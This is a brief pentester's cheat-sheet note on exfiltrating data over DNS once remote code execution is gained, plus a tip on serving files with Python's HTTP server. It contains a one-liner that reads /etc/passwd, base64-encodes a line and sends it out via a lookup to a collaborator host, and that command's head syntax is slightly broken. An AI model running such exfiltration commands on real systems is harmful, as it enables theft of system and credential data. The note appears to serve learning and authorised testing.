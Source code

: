 # Exfiltration
Tags: #dns #firewall #waf
Related to: [[DNS]]
See also:
Previous:

## Links

## Notes
### DNS exfiltration when HTTP blocked
If you are able to do RCE on a target but can't exfil over HTTP:
- read content from file
- Use head to get a line
- b64 encode (or hex, or anything that's URL-safe)
- Make a DNS request to collaborator or a server you control

Example:
`EXFIL=$(cat /etc/passwd | head 1 | base64); curl $EXFIL.collaborator.com`

### Python simple server
This will open up port `1337` and serve the contents of the current directory.

_Note: bots will find you within a few minutes so don't put anything important here,
or else encrypt it securely._
`python3 -m http.server 1337`